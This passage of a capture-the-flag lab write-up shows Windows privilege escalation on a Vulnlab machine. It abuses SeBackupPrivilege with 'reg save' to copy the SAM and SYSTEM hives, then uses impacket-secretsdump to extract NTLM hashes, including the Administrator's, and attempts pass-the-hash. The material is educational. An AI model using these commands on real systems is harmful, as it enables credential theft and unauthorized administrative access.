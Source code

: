 ```

*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> type user.txt
VL{b2c6150b85125d32f4b253df9540d898}
```


### Privilege Escalation

After checking the available privileges, we were able to see that `SeBackupPrivilege` is enabled.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

As per this [note](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md) on abusing `SeBackupPrivilege`, we saved the SAM and SYSTEM hives to a temporary folder.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> mkdir C:\temp
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> reg save hklm\sam C:\temp\sam.hive
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> reg save hklm\system C:\temp\system.hive
```

Downloaded the files to Falcon and used `impacket-secretsdump` to dump the hashes, including the Administrator hash.

```
destiny@falcon:~/vulnlab.com/Baby-W$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

Used the admin hash to perform a pass-the-hash attack with Evil-WinRM, but was unable to log in.
